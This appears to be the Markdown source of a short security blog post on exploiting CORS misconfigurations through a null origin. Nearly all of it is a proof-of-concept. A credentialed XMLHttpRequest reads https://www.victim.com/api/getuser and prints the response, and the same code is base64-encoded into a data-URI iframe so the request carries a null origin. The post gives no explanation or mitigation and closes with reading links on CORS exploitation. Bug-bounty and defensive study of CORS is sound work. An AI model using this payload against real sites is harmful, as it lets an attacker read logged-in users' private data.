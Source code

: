 ```yaml
---
layout: post
title: Abusing CORS via null origin
categories: articles
---
```


<h1 align="center">{{ page.title }}</h1>
<p align="right" class="date">{{ page.date | date_to_string }} - onehackzero</p>

## POC:

```
<script>
    var url = "https://www.victim.com/api/getuser";
    var req = new XMLHttpRequest();
    req.open('get',url,true);
    req.setRequestHeader("Accept", "application/json");
    req.withCredentials = true;
    req.send();
    req.onreadystatechange= function(){
    if(req.readyState == req.DONE) {
        document.write(this.responseText)
    }}
 </script>
```

This code was converted to the equivalent Base64 string.

```
<iframe width=100% height=100% src="data:text/html;base64,PHNjcmlwdD4gdmFyIHVybCA9ICJodHRwczovL3d3dy52aWN0aW0uY29tL2FwaS9nZXR1c2VyIjsgIHZhciByZXEgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTtyZXEub3BlbignZ2V0Jyx1cmwsdHJ1ZSk7cmVxLnNldFJlcXVlc3RIZWFkZXIoIkFjY2VwdCIsICJhcHBsaWNhdGlvbi9qc29uIik7cmVxLndpdGhDcmVkZW50aWFscyA9IHRydWU7cmVxLnNlbmQoKTtyZXEub25yZWFkeXN0YXRlY2hhbmdlPSBmdW5jdGlvbigpe2lmKHJlcS5yZWFkeVN0YXRlID09IHJlcS5ET05FKSB7ZG9jdW1lbnQud3JpdGUodGhpcy5yZXNwb25zZVRleHQpfSB9PC9zY3JpcHQ+">
```

## Further reading:

<a href="https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties" target="_blank">Exploiting CORS misconfigurations for Bitcoins and bounties</a><br>
<a href="https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/" target="_blank">Exploiting Misconfigured CORS (Cross Origin Resource Sharing)</a><br>
<a href="https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-via-wildcard-subdomains" target="_blank">Exploiting Misconfigured CORS via Wildcard Subdomains</a><br>
<a href="https://web-in-security.blogspot.com/2017/07/cors-misconfigurations-on-large-scale.html" target="_blank">CORS misconfigurations on a large scale</a><br>
<a href="https://yassineaboukir.com/blog/cors-exploitation-data-exfiltration-when-allowed-origin-is-set-to-null/" target="_blank">CORS Exploitation: Data exfiltration when allowed origin is set to NULL</a><br>
<a href="https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/" target="_blank">CORS Misconfigurations Explained</a><br>
<a href="https://www.sxcurity.pro/advanced-cors-techniques/" target="_blank">Advanced CORS Exploitation Techniques</a><br>